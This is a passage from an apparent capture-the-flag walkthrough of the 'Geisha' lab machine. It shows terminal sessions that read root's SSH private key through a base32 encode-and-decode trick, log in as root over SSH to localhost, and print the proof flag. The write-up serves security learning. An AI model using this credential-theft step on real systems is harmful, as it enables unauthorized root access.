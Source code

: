 ```bash
geisha@geisha:~$ base32 "/root/.ssh/id_rsa" | base32 --decode > root.key
geisha@geisha:~$ ls -la
total 28
drwxr-xr-x 2 geisha geisha 4096 Sep 19 10:00 .
drwxr-xr-x 3 root   root   4096 May  3  2020 ..
-rw-r--r-- 1 geisha geisha  220 May  3  2020 .bash_logout
-rw-r--r-- 1 geisha geisha 3526 May  3  2020 .bashrc
-rw-r--r-- 1 geisha geisha  807 May  3  2020 .profile
-rw-r--r-- 1 geisha geisha   33 Sep 19 09:18 local.txt
-rw-r--r-- 1 geisha geisha 1680 Sep 19 10:00 root.key <--- root ssh private key
geisha@geisha:~$ chmod 600 root.key <--- changing permission to read and write
geisha@geisha:~$ 
```

Now we could just connect to the root user via ssh.

```bash
geisha@geisha:~$ ssh -i root.key root@localhost
The authenticity of host 'localhost (::1)' can't be established.
ECDSA key fingerprint is SHA256:VZJ2vD6+/BC5zd9v8nRSgqEHyfR17GuCELg0nE0BkFk.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'localhost' (ECDSA) to the list of known hosts.
Linux geisha 4.19.0-8-amd64 #1 SMP Debian 4.19.98-1+deb10u1 (2020-04-27) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@geisha:~# whomai;hostname
-bash: whomai: command not found
geisha
root@geisha:~# whoami;hostname
root
geisha
root@geisha:~#
```

Root flag can be found in `/root` directory

```bash
root@geisha:~# cd /root
root@geisha:~# ls -la
total 36
drwx------  4 root root 4096 Sep 19 09:30 .
drwxr-xr-x 18 root root 4096 Jul  3  2020 ..
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root 4096 May  9  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   66 May  9  2020 .selected_editor
drwxr-xr-x  2 root root 4096 May  9  2020 .ssh
-rw-r--r--  1 root root   32 Aug 20  2020 flag.txt
-rw-r--r--  1 root root   33 Sep 19 09:18 proof.txt
root@geisha:~# cat flag.txt
Your flag is in another file...
root@geisha:~# cat proof.txt
96b3a364f6df56fffded3d18ce1e9ffc
root@geisha:~# 
```
## Resources
